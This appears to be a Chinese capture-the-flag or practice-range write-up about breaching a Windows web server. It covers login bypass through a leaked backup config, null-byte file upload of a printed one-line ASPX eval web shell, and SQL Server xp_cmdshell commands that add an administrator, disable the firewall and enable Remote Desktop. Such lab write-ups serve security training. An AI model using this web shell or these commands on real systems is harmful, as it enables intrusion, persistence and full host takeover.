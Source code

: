 ```yaml
---
title: 记一次登陆页面绕过及文件上传的靶场（2023.8.27）
date: 2023-08-28 09:10:06
tags:
- 靶场
categories:
- 靶场
---
```


# 找到登录页面

> 首先得到一个目标IP，但发现并不能直接访问，于是用nmap或者御剑进行端口扫描
>
> 扫出的结果
>
> ![e817c175e306e954c30fb0cd507951df](../资源文件/图片/e817c175e306e954c30fb0cd507951df.png)
>
> 逐个查看后，发现27689端口下是一个登录页面
>
> ![image-20230828092005268](../资源文件/图片/image-20230828092005268.png)
>
> 弱口令尝试过后无结果
>
> 尝试万能密码后也无果
>
> 尝试扫描该端口的目录，使用dirsearch或者御剑扫描后台
>
> 扫出后台为web.config.bak
>
> ![image-20230828093314693](../资源文件/图片/image-20230828093314693.png)
>
> 可以看到一个数据库名，和密码



# 进入登录页面进行文件上传

> 用navicat连接后可找到用户名为**admin**和密码为**asdadwn_d2112**
>
> 再反回登录，发现可以登录进去
>
> ![image-20230828093613079](../资源文件/图片/image-20230828093613079.png)
>
> 点击文件上传与管理上传文件发现提示
>
> ![image-20230828093755683](../资源文件/图片/image-20230828093755683.png)
>
> 再观察出上传的文件只能是.jpg，然后前面会生成一个固定长度的数字
>
> 于是想到拼接出32位为.aspx  33位后为.jpg
>
> ![image-20230828094443296](../资源文件/图片/image-20230828094443296.png)
>
> 但点击后发现是下载文件，并没有解析文件
>
> 再上传后抓包，使用00截断发现页面报错
>
> ![image-20230828094634512](../资源文件/图片/image-20230828094634512.png)
>
> 发现路径后，构造aspx木马
>
> ```
> <%@ Page Language="Jscript"%>
> <%eval(Request.Item["pass"],"unsafe");%>
> ```
>
> 至.aspx的文件中
>
> 上传进去，根据报错信息，构造路径，用蚁剑连接
>
> ![image-20230828095420103](../资源文件/图片/image-20230828095420103.png)
>
> ![image-20230828095502044](../资源文件/图片/image-20230828095502044.png)
>
> 连接成功，进入
>
> ![image-20230828095551234](../资源文件/图片/image-20230828095551234.png)
>
> 发现了key
>
> 然后又发现了第二个数据库



# 连接目标主机

> 用navicat再次连接第二个数据库
>
> ![image-20230828110314457](../资源文件/图片/image-20230828110314457.png)
>
> ![image-20230828110400223](../资源文件/图片/image-20230828110400223.png)
>
> 执行以下命令
>
> ```
> USE master
> RECONFIGURE
> EXEC sp_configure 'show advanced options',1
> RECONFIGURE
> EXEC sp_configure 'xp_cmdshell',1
> exec master..xp_cmdshell 'net user admin 123 /add'					————新建用户
> exec master..xp_cmdshell 'net localgroup administrators admin /add'	————添加用户至管理员组
> exec master..xp_cmdshell 'netsh firewall set opmode disable'		————关闭防火墙
> exec master..xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f'							 ————打开一些服务
> exec master..xp_cmdshell 'netstat -anop tcp | find "3389"'			————打开3389端口（远程连接）
> ```
>
> 接下来就用远程桌面连接，连接目标电脑
>
> ![image-20230828110635675](../资源文件/图片/image-20230828110635675.png)
>
> **完结**

